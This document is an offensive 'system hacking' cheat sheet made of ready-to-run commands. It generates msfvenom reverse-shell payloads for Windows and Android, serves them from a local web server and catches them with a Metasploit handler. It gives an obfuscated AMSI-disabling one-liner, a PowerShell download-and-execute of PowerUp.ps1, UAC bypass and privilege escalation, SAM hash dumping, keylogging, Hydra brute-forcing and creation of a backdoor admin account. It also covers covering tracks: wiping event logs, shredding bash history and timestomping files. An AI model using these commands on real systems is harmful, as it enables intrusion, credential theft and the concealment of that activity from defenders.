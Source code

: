## System hacking cheat sheet

### Getting shell with msfvenom and use PowerUp.ps1 to escalate privileges

#### Generate payload and encode using msfvenom

```sh
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=[Port in the Host Machine] -o [Output Path/shellcode.exe]
```

```sh
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=[IP Address of Host Machine] -f exe > Desktop/Backdoor.exe
```
[msfvenom documentation](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

#### Upload shellcode using a local server

```sh
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp [PATH]/shellcode.exe /var/www/html/share

service apache2 start
```

Download it to the victim machine `[IP Address of Host Machine]/share/shellcode.exe`.

#### Using handler in metasploit to connect to the payload

```sh
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set LHOST [IP Address of Host Machine]
set LPORT [Port in the Host Machine]
exploit 
```

#### Upload PowerUp.ps1

```sh
upload [PATH]/PowerUp.ps1 PowerUp.ps1
```

#### PowerUp.ps1

##### Check all vulnerabilities

```sh
shell
poweshell -ep bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
[PowerUp.ps1 tutorial](https://recipeforroot.com/advanced-powerup-ps1-usage/)

`bypass` is used to bypass PowerShell’s execution policy.

For disable [AMSI](https://docs.microsoft.com/en-us/archive/blogs/poshchap/security-focus-defending-powershell-with-the-anti-malware-scan-interface-amsi):

```sh
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

###### Excute PowerUp.ps1 without upload the script

```sh
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HarmJ0y/PowerUp/master/PowerUp.ps1'); Invoke-AllChecks"
```

##### Escalate privileges

```sh
Invoke-ServiceAbuse -Name 'Name of the vulnerable service'
```

### Attemp to bypass Windows UAC protection via the FodHelper Registry Key usind bypassuac_fodhelper exploit

```sh
use exploit/windows/local/bypassuac_fodhelper
```

If it works, in some cases we can already escalate privileges with some techniques like `getsystem`.

### Attemp to elevate privileges with Meterpreter

```sh
getsystem -t 1
```

### Obtain password hashes in the SAM file using Metasploit (root requiered)

```sh
run post/windows/gather/smart_hashdump
```

It uses the service [Named Pipe Impersonation (In Memory/Admin) Technique](https://securityintelligence.com/identifying-named-pipe-impersonation-and-other-malicious-privilege-escalation-techniques/).

### Clear the events logs that require administrative or root privileges using Meterpreter (root requiered)

```sh
clearev
```

### Clear all event viewer logs using wevtutil (Windows)

```sh
for /F "tokens=*" %1 in ('wevtutil.exe el') DO wevtutil.exe cl "%1"
```

```sh
@echo off

FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo All Event Logs have been cleared!
goto theEnd

:do_clear
echo clearing %1
wevtutil.exe cl %1
goto :eof

:noAdmin
echo Current user permissions to execute this .BAT file are inadequate.
echo This .BAT file must be run with administrative privileges.
echo Exit now, right click on this .BAT file, and select "Run as administrator".  
pause >nul

:theEnd
Exit
```

### Securely delete a chunk of data by overwriting it to prevent its possible recovery using in-built Windows tool (Windows)

```sh
cipher /w:[Drive or Folder or File Location] 
```

### Avoid bash history

#### Disable the BASH shell from saving the history (Linux)

```sh
export HISTSIZE=0
```

#### Make bash history unreadable (Linux)

```sh
shred ~/.bash_history
```

```sh
shred ~/.bash_history && cat /dev/null > .bash_history
```

### Leave no trace of MACE attributes when reading or modifying files using Meterpreter

#### To view the mace attributes of a file (Windows)

```sh
timestomp [FILE] -v
```

#### Change MACE attributes (Windows)

```sh
timestomp [FILE] -m "mm/dd/yyyy hh:mm:ss"
```

### Keylogger using Meterpreter

#### Start keylogger

```sh
keyscan_start
```

#### Read keylogger log

```sh
keyscan_dump
```

### Attempt to gain access to FTP server perform a dictionaty attack using THC Hydra

```sh
hydra -L [USERNAMES DICTIONARY] -P [PASSWORDS DICTIONARY] ftp://[IP]
```

### Create user and set admin privilegies in Windows

```sh
net user Test /Add
net localgroup Administrators Test /Add
```

### Generate payload for Android and encode using msfvenom

```sh
msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=[LOCAL HOST] R > payload.apk
```

